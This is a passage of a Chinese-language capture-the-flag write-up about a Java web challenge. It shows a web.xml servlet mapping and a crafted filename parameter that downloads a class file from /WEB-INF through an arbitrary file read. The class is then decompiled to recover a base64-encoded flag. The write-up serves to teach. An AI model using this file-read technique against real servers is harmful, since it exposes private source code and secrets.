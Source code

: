 ```
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>
</web-app>
```

然后去找与Flag有关的那个class，下载下来：

```
filename=/WEB-INF/classes/com/wm/ctf/FlagController.class
```

下载得到的.class文件要进行一步反编译，我们使用brew管理下的cfr-compiler工具即可对其反编译：

cfr-decompiler _WEB-INF_classes_com_wm_ctf_FlagController.class > flagcontroller.txt 

```
/*
 * Decompiled with CFR 0.152.
 * 
 * Could not load the following classes:
 *  javax.servlet.ServletException
 *  javax.servlet.annotation.WebServlet
 *  javax.servlet.http.HttpServlet
 *  javax.servlet.http.HttpServletRequest
 *  javax.servlet.http.HttpServletResponse
 */
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet(name="FlagController")
public class FlagController
extends HttpServlet {
    String flag = "ZmxhZ3tkNTY1ZjdlNy01ZjhiLTQ5NjgtYjk5OC1mNTE0M2EzYzE1ZWV9Cg==";

    protected void doGet(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse) throws ServletException, IOException {
        PrintWriter printWriter = httpServletResponse.getWriter();
        printWriter.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
    }
}
```

在导出的.txt文件中可以看到一串base64编码，解码即得到flag!

总结，xml作为一个目录，会成为攻击的起点。





